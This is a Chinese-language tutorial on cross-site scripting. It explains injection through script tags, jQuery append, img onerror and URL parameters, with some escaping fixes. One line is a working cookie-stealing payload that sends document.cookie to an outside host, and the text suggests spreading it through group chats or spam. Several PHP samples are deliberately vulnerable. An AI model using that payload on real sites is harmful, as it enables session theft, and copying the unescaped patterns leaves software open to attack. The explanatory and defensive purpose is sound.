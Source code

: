## XSS攻击原理

**HTML是一种超文本标记语言，通过将一些字符特殊地对待来区别文本和标记**，例如，小于符号（<）被看作是HTML标签的开始，之间的字符是页面的标题等等。当动态页面中插入的内容含有这些特殊字符（如<）时，用户浏览器会将其误认为是插入了HTML标签，当这些HTML标签引入了一段JavaScript脚本时，这些脚本程序就将会在用户浏览器中执行。所以，当这些特殊字符不能被动态页面检查或检查出现失误时，就将会产生XSS漏洞。 [XSS攻击](https://baike.baidu.com/item/XSS攻击/954065?fr=aladdin)

## 1.通过<script\>攻击

举个例子：通过QQ群，或者通过群发垃圾邮件，来让其他人点击这个地址：

book.com/search?name=<script>document.location='http://vajoy/get?cookie='+document.cookie</script>

这样我们就可以获取别人的cookie信息了

## 2.通过append攻击

~~~html
<?php
    $username="\u003cscript\u003ealert('okok');";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
        <script src="https://ss0.bdstatic.com/5aV1bjqh_Q23odCf/static/superman/js/lib/jquery-1.10.2_d88366fd.js"></script>
    </head>
    <body>
        <div>
            用户名：<?php echo htmlentities($username);?>
        </div>
        <div>
            第一条状态：侯医生的状态1
        </div>
        <div>
            第二条状态：侯医生的状态2
        </div>
        <div>
            第三条状态：侯医生的状态3
        </div>
        <div>版权所有：<span id="username_info"></span></div>
        <script>
            $('#username_info').append("<?php echo htmlentities($username);?>");
        </script>
    </body>
</html>

~~~

 这样通过echo还是可以执行对应的脚本的  

## 3.通过Img标签攻击

当图片加载失败时，会调用该元素上面的onerror事件，我们正可以利用这里进行攻击。

~~~html
<?php
    $username="<script>alert('侯医生');</script>";
    $imgsrc="\" onerror=\"javascript:alert('侯医生');\"";

?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <div>
            用户名：<?php echo htmlentities($username);?>
        </div>
        <div>
            第一条状态：侯医生的状态1，这个是图片：
            <img src="<?php echo $imgsrc;?>" />
        </div>
        <div>
            第二条状态：侯医生的状态2
        </div>
        <div>
            第三条状态：侯医生的状态3
        </div>
    </body>
</html>
~~~

结果就是：

![img](https://images2015.cnblogs.com/blog/899904/201612/899904-20161222114958776-1323053243.png)

## 升级防御

看来，我们需要再次进行防御升级了，我们将输出的字符串中的`\`反斜杠进行转义(json转义)。这样，`\`就不会被当做unicode码的开头来被处理了。代码如下：

```js
document.getElementById('username_info').innerHTML = <?php echo json_encode(htmlentities($username));?>;
```

## 4.通过URL攻击

如果黑客在URL的这个参数中加入js代码，这样便又会被执行

![img](https://images2015.cnblogs.com/blog/899904/201612/899904-20161222120143042-1165980918.png)

像这种从url中获取的信息，笔者建议，最好由后端获取，在前端转义后再行输出

```
<script>
    var value = decodeURIComponent("<?php echo htmlentities($_GET['username']);?>");
    $('#username_info').append(value);
</script>
```